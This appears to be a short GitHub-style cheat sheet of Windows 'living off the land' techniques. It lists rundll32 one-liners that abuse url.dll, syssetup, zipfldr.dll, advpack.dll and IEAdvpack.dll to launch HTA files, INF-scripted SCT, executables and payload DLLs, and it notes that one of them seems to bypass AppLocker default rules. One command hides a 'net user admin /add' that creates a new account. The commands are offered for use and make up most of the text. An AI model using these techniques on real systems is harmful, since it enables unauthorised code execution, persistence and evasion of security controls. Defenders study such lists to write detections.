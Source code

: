 # Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```
&- InSide INFScript By @subTee Regsvr32 in INFScript
&- Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
-& Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
